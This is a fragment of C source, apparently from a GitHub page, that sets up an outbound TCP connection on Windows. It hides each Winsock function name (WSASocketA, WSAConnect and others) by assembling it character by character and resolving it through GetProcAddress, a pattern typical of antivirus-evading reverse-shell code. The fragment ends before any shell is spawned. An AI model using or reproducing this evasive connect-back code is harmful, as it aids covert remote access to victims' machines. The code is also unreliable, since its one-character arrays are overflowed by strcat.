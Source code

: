 ```c
		strcat(func2,"S");
		strcat(func2,"o");
		strcat(func2,"c");
		strcat(func2,"k");
		strcat(func2,"e");
		strcat(func2,"t");
		strcat(func2,"A");
		myNotWSASocketA notWSASocketA = (myNotWSAStartup) GetProcAddress(hws2_32,func2); // GetProcAddress(hws2_32,"WSASocketA");
        aaa = notWSASocketA(AF_INET, SOCK_STREAM, IPPROTO_TCP, 0, 0, 0);
        
        bbb.sin_family = AF_INET;

		char func3[] = "i";
		strcat(func3,"n");
		strcat(func3,"e");
		strcat(func3,"t");
		strcat(func3,"_");
		strcat(func3,"a");
		strcat(func3,"d");
		strcat(func3,"d");
		strcat(func3,"r");
		myNotinet_addr notinet_addr = (myNotinet_addr) GetProcAddress(hws2_32,func3); // GetProcAddress(hws2_32,"inet_addr");
        bbb.sin_addr.s_addr = notinet_addr(ddd);

		char func4[] = "h";
		strcat(func4,"t");
		strcat(func4,"o");
		strcat(func4,"n");
		strcat(func4,"s");
		myNothtons nothtons = (myNothtons) GetProcAddress(hws2_32,func4); // GetProcAddress(hws2_32,"htons");
        bbb.sin_port = nothtons(eee);

		char func5[] = "W";
		strcat(func5,"S");
		strcat(func5,"A");
		strcat(func5,"C");
		strcat(func5,"o");
		strcat(func5,"n");
		strcat(func5,"n");
		strcat(func5,"e");
		strcat(func5,"c");
		strcat(func5,"t");
		myNotWSAConnect notWSAConnect = (myNotWSAConnect) GetProcAddress(hws2_32,func5); // GetProcAddress(hws2_32,"WSAConnect");
        if (notWSAConnect(aaa, (SOCKADDR*)&bbb, sizeof(bbb), 0, 0, 0, 0)==SOCKET_ERROR) {
	        char func6[] = "c";
	        strcat(func6,"l");
	        strcat(func6,"o");
	        strcat(func6,"s");
	        strcat(func6,"e");
	        strcat(func6,"s");
	        strcat(func6,"o");
	        strcat(func6,"c");
	        strcat(func6,"k");
	        strcat(func6,"e");
	        strcat(func6,"t");
	        myNotclosesocket notclosesocket = (myNotclosesocket) GetProcAddress(hws2_32,func6); // GetProcAddress(hws2_32,"closesocket");
            notclosesocket(aaa);

```